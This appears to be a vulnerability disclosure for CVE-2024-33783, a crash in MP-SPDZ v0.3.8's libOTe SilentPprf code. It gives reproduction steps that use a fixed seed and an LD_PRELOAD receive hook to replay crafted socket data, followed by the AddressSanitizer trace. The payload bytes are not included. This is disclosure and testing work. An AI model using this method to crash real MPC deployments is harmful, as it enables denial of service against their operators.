## SEGV in SilentPprf.cpp

### CVE ID

CVE-2024-33783

### Affected Product

MP-SPDZ

### Affected Version

v0.3.8

commit: a4f08e6ca9d0cfd439fbb1bd366edf91a61e9196


### Vulnerability Type

Buffer Overflow


### Description

MP-SPDZ v0.3.8 was discovered to contain a segmentation violation via the function osuCrypto::SilentMultiPprfReceiver::expand in /Tools/SilentPprf.cpp. This vulnerability allows attackers to cause a Denial of Service (DoS) via a crafted message.

SEGV  MP-SPDZ/deps/libOTe/libOTe/Tools/SilentPprf.cpp:949 in osuCrypto::SilentMultiPprfReceiver::expand 



### Replay

1. Download the source code of MP-SPDZ, change the working directory to MP-SPDZ/, and compile it

```
cd MP-SPDZ/
make -j 8 tldr
```


2. Add the following code to Makefile of MP-SPDZ 

```
CFLAGS +=  -fsanitize=address -g 
```
3. Modify sysRandomSeed in MP-SPDZ/deps/libOTe/cryptoTools/cryptoTools/Common/Defines.cpp as follows:

```
    block sysRandomSeed()
    {
        // std::random_device rd;
        // auto ret = std::array<u32, 4>{rd(), rd(), rd(), rd()};
        // block blk;
        // memcpy(&blk, &ret, sizeof(block));
        // return blk;
        auto ret = std::array<u32, 4>{0, 0, 0, 0};
        block blk;
        memcpy(&blk, &ret, sizeof(block));
        return blk;
    }
```

4. Compile spdz2k-party.x of MP-SPDZ

```
make clean
make -j 8 spdz2k-party.x
```

5. Add the following test.mpc to MP-SPDZ/Programs/Source/ and complie it with compile.py of MP-SPDZ

```
from sorting import radix_sort
a = sint.Array(3)
a[0] = 1
a[1] = 3
a[2] = 2
radix_sort(a, a, 4)
print_ln("a = %s",a.reveal())
b = sint.Array(3)
b[0] = 1
b[1] = 3
b[2] = 2
c = a.get_vector() > b.get_vector()
print_ln("c = %s",c.reveal())
```

```
python3 ./compile.py -R 64 test
```


6. Run the spdz2k-party.x with librecv_hook.so and the socket data inside this directory.


```
SOCKET_DATA_PATH="PATH_TO_THIS_DIRECTORY" LD_PRELOAD="PATH_TO_librecv_hook.so" ./spdz2k-party.x 0 test -pn 10166 -h localhost
```

For example,
```
SOCKET_DATA_PATH="../Vulnerabilities-in-MPC-Framework/MP-SPDZ/SEGV-SlientPprf" LD_PRELOAD="../Vulnerabilities-in-MPC-Framework/librecv_hook.so" ./spdz2k-party.x 0 test -pn 10166 -h localhost
```

### ASAN

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==2287856==ERROR: AddressSanitizer: SEGV on unknown address (pc 0x556a792804e5 bp 0x7f74a43a1e48 sp 0x7f74a43a1e30 T80)
==2287856==The signal is caused by a READ memory access.
==2287856==Hint: this fault was caused by a dereference of a high value address (see register values below).  Disassemble the provided pc to learn which register was used.
    #0 0x556a792804e5 in osuCrypto::SilentMultiPprfReceiver::expand(osuCrypto::Channel&, osuCrypto::PRNG&, osuCrypto::MatrixView<osuCrypto::block>, osuCrypto::PprfOutputFormat, bool, unsigned long)::$_0::operator()(unsigned long) const /home/lgp/MP-SPDZ/deps/libOTe/libOTe/Tools/SilentPprf.cpp:949:33
    #1 0x556a7927fdfb in osuCrypto::SilentMultiPprfReceiver::expand(osuCrypto::Channel&, osuCrypto::PRNG&, osuCrypto::MatrixView<osuCrypto::block>, osuCrypto::PprfOutputFormat, bool, unsigned long) /home/lgp/MP-SPDZ/deps/libOTe/libOTe/Tools/SilentPprf.cpp:1199:9
    #2 0x556a792707e9 in osuCrypto::SoftSpokenOT::SmallFieldVoleReceiver::SmallFieldVoleReceiver(unsigned long, unsigned long, osuCrypto::Channel&, osuCrypto::PRNG&, gsl::span<osuCrypto::block const, -1l>, osuCrypto::BitVector, unsigned long, bool) /home/lgp/MP-SPDZ/deps/libOTe/libOTe/Vole/SoftSpokenOT/SmallFieldVole.cpp:386:7
    #3 0x556a7926c815 in osuCrypto::SoftSpokenOT::DotSemiHonestSenderWithVole<osuCrypto::SoftSpokenOT::SubspaceVoleMaliciousReceiver<osuCrypto::RepetitionCode>>::setBaseOts(gsl::span<osuCrypto::block, -1l>, osuCrypto::BitVector const&, osuCrypto::PRNG&, osuCrypto::Channel&, bool) /home/lgp/MP-SPDZ/deps/libOTe/libOTe/TwoChooseOne/SoftSpokenOT/DotSemiHonest.cpp:30:3
    #4 0x556a7920f3de in osuCrypto::SoftSpokenOT::DotMaliciousLeakySender::setBaseOts(gsl::span<osuCrypto::block, -1l>, osuCrypto::BitVector const&, osuCrypto::PRNG&, osuCrypto::Channel&) /home/lgp/MP-SPDZ/./local/include/libOTe/TwoChooseOne/SoftSpokenOT/DotMaliciousLeaky.h:75:9
    #5 0x556a7920f3de in OTExtensionWithMatrix::soft_sender(unsigned long) /home/lgp/MP-SPDZ/OT/OTExtensionWithMatrix.cpp:152:12
    #6 0x556a7920ea75 in OTExtensionWithMatrix::extend(int, BitVector const&) /home/lgp/MP-SPDZ/OT/OTExtensionWithMatrix.cpp:128:9
    #7 0x556a79a208ed in OTMultiplier<Spdz2kShare<64, 64>>::multiply() /home/lgp/MP-SPDZ/./OT/OTMultiplier.hpp:94:13
    #8 0x556a79a1e511 in void* run_ot_thread<Spdz2kShare<64, 64>>(void*) /home/lgp/MP-SPDZ/./OT/NPartyTripleGenerator.hpp:28:31
    #9 0x556a790f4206 in asan_thread_start(void*) asan_interceptors.cpp.o
    #10 0x7f750d09f608 in start_thread /build/glibc-e2p3jK/glibc-2.31/nptl/pthread_create.c:477:8
    #11 0x7f750cf7b352 in __clone /build/glibc-e2p3jK/glibc-2.31/misc/../sysdeps/unix/sysv/linux/x86_64/clone.S:95

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /home/lgp/MP-SPDZ/deps/libOTe/libOTe/Tools/SilentPprf.cpp:949:33 in osuCrypto::SilentMultiPprfReceiver::expand(osuCrypto::Channel&, osuCrypto::PRNG&, osuCrypto::MatrixView<osuCrypto::block>, osuCrypto::PprfOutputFormat, bool, unsigned long)::$_0::operator()(unsigned long) const
Thread T80 created by T70 here:
    #0 0x556a790dc1b1 in pthread_create (/home/lgp/MP-SPDZ/spdz2k-party.x+0x32f1b1) (BuildId: 696978139b793a6e175ed0121529d7fe607437a3)
    #1 0x556a79a1db32 in OTTripleGenerator<Spdz2kShare<64, 64>>::OTTripleGenerator(OTTripleSetup const&, Names const&, int, int, int, MascotParams&, Z2<64>, Player*) /home/lgp/MP-SPDZ/./OT/NPartyTripleGenerator.hpp:135:9
    #2 0x556a799f86d5 in NPartyTripleGenerator<Spdz2kShare<64, 64>>::NPartyTripleGenerator(OTTripleSetup const&, Names const&, int, int, int, MascotParams&, Z2<64>, Player*) /home/lgp/MP-SPDZ/./OT/NPartyTripleGenerator.hpp:40:9
    #3 0x556a799f86d5 in Spdz2kTripleGenerator<Spdz2kShare<64, 64>>::Spdz2kTripleGenerator(OTTripleSetup const&, Names const&, int, int, int, MascotParams&, Z2<64>, Player*) /home/lgp/MP-SPDZ/./OT/NPartyTripleGenerator.hpp:67:9
    #4 0x556a799f86d5 in OTPrep<Spdz2kShare<64, 64>>::set_protocol(SPDZ2k<Spdz2kShare<64, 64>>&) /home/lgp/MP-SPDZ/./Protocols/MascotPrep.hpp:44:28
    #5 0x556a799fbc21 in Spdz2kPrep<Spdz2kShare<64, 64>>::set_protocol(SPDZ2k<Spdz2kShare<64, 64>>&) /home/lgp/MP-SPDZ/./Protocols/Spdz2kPrep.hpp:44:16
    #6 0x556a7998ae9c in SubProcessor<Spdz2kShare<64, 64>>::SubProcessor(MAC_Check_Z2k<Z2<128>, Z2<64>, Z2<128>, Spdz2kShare<64, 64>>&, Preprocessing<Spdz2kShare<64, 64>>&, Player&, ArithmeticProcessor*) /home/lgp/MP-SPDZ/./Processor/Processor.hpp:34:9

Thread T70 created by T0 here:
    #0 0x556a790dc1b1 in pthread_create (/home/lgp/MP-SPDZ/spdz2k-party.x+0x32f1b1) (BuildId: 696978139b793a6e175ed0121529d7fe607437a3)
    #1 0x556a7994b4cd in Machine<Spdz2kShare<64, 64>, Share<gf2n_long>>::prepare(std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char>> const&) /home/lgp/MP-SPDZ/./Processor/Machine.hpp:203:7
    #2 0x556a799539b6 in Machine<Spdz2kShare<64, 64>, Share<gf2n_long>>::run(std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char>> const&) /home/lgp/MP-SPDZ/./Processor/Machine.hpp:452:3
    #3 0x556a79141c4c in int OnlineMachine::run<Spdz2kShare<64, 64>, Share<gf2n_long>>() /home/lgp/MP-SPDZ/./Processor/OnlineMachine.hpp:181:70
    #4 0x556a79138f4f in main /home/lgp/MP-SPDZ/Machines/spdz2k-party.cpp:45:5
    #5 0x7f750ce80082 in __libc_start_main /build/glibc-e2p3jK/glibc-2.31/csu/../csu/libc-start.c:308:16

==2287856==ABORTING
```